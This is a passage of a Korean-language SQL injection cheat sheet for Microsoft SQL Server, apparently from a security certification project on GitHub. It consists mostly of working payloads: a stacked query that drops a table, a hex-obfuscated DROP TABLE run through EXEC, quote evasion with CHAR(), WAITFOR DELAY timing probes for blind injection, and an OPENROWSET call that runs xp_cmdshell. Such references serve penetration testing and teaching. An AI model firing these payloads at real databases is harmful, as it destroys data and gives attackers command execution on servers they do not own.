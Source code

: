테이블 삭제 :<br>
`AND 1=0; DROP TABLE TMP_DB;`<br><br>

더 쉬운 방법은 MSSQL 2005 이상부터 시작됨.<br>
XML PATH() 함수는 하나의 쿼리로 모든 테이블을 검색할 수 있도록 연결자로 작동함.<br><br>
![image](https://github.com/ICTIS-Cert-System-Project/ICTIS-Cert-System/assets/18510716/48b93152-4f29-4b3c-a852-96a1adb085b6)<br><br>
노트 :<br>
쿼리를 16진수로 인코딩하여 공격을 난독화할 수 있음.<br>
`' AND 1=0; DECLARE @S VARCHAR(4000) SET @S=CAST(0x44524f50205441424c4520544d505f44423b AS VARCHAR(4000)); EXEC (@S);--`<br><br><br>





## (8) 인용 기호 피하기

`SELECT * FROM Users WHERE username = CHAR(97) + CHAR(100) + CHAR(109) + CHAR(105) + CHAR(110)`<br><br><br>


## (9) 문자열 연결
`SELECT CONCAT('a','a','a'); (SQL SERVER 2012)
SELECT 'a'+'d'+'mi'+'n';`<br><br><br>




## (10) 조건문
![image](https://github.com/ICTIS-Cert-System-Project/ICTIS-Cert-System/assets/18510716/5a01a082-5220-43b7-912c-a9c3895ce90a)
<br><br>
예 :<br>
`IF 1=1 SELECT 'true' ELSE SELECT 'false';`<br>
`SELECT CASE WHEN 1=1 THEN true ELSE false END;`<br><br>

노트 :<br>
IF 는 SELEC 문 내에서 사용할 수 없음.<br><br><br>

## (11) 타이밍

`WAITFOR DELAY 'time_to_pass';`<br>
`WAITFOR TIME 'time_to_execute';`<br><br>

예 :<br>
`IF 1=1 WAITFOR DELAY '0:0:5' ELSE WAITFOR DELAY '0:0:0';`<br><br><br>



## (12) OPENROWSET 공격

`SELECT * FROM OPENROWSET('SQLOLEDB', '127.0.0.1';'sa';'p4ssw0rd', 'SET FMTONLY OFF execute master..xp_cmdshell "dir"');`<br><br><br>


